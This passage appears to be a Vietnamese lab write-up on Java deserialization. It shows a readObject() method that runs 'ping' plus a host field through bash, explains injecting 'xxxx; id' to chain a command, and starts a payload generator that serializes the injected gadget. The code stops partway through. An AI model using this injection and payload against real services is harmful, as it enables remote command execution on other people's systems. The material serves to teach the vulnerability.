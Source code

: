 ```java 
 private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException, InterruptedException {
        in.defaultReadObject();
        // Test connection
        String path = "/bin/bash";
        ProcessBuilder pb = new ProcessBuilder(path, "-c", "ping " + this.host);
        Process ping = pb.start();
        int exitCode = ping.waitFor();
        // TODO: add implement for exitCode check
    }
```

Ở đây ProcessBuilder là một hàm nguy hiểm nó có thể chạy tiến trình tới đường dẫn mà dev truyền vào và ở đây đoạn `sendRequest()` nó đang thực hiện `curl` đến với giá trị `this.host` đây là một sink hoàn toàn có khả năng thực hiện `OS command Injection` vậy nên bây giờ ta phải tìm được nơi gọi đến hàm `sendRequest()` để củng cố kịch bản.

![image](https://hackmd.io/_uploads/HyKLgah6le.png)

Ở class MyRequestServlet.java ta tìm được nơi gọi đến function `sendRequest()` nhưng ở đây nó đã bị comment lại nên có vẻ sẽ không có kịch bản khai thác hàm này ở đây.

Bây giờ ta sẽ chỉ còn lại 1 sink đó là ở hàm `readObject()` ta có thể nhận ra ngay rằng hàm `readObject` này là một magic method nó sẽ được tự động gọi khi chương trình tiến hành deserialize data và truyền giá trị vào OS Command ở dòng `        ProcessBuilder pb = new ProcessBuilder(path, "-c", "ping " + this.host);`

![image](https://hackmd.io/_uploads/Hk7jz6hpgx.png)


Vậy ở đây ta hoàn toàn có thể lợi dụng nó để tiến hành nối dài câu OS Command ở đây ta sẽ inject thêm ở `this.host` thành `xxxx; id` dấu `;` sẽ thực hiện nối dài câu OS Command và thực thi thêm câu lệnh `id` ở đằng sau.

Bây giờ ta sẽ thực hiện phần code exploit, phần code sẽ không khác gì cũ ta sẽ chỉ cần copy 3 class mới vào thêm vào đó ta tiến hành code sửa lại phần hàm.

![image](https://hackmd.io/_uploads/Sk9tVTn6le.png)

Ở đây ta khởi tạo `MyHTTPClient` và thực hiện gọi `xxxx; id` vì ở đây phần mình inject đó sẽ được gọi vào `this.host`.

Đó là logic tấn công của ta bây giờ sẽ là code để gen ra được payload:

```java 
package com.example.javadeserialize;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class GeneratePayload {

    public static void main(String[] args) {
        try {
          
            String commandToInject = "xxxx; id"; 

            System.out.println(">>> Gen payload Level 2...");
            System.out.println(">>> Inject: '" + commandToInject + "'");

            // Bước 1: Tạo đối tượng gadget MyHTTPClient với payload của chúng ta
            MyHTTPClient payloadObject = new MyHTTPClient(commandToInject);

            System.out.println(">>> Process...");

            // Bước 2 & 3: Serialize và encode Base64 (giữ nguyên như cũ)
```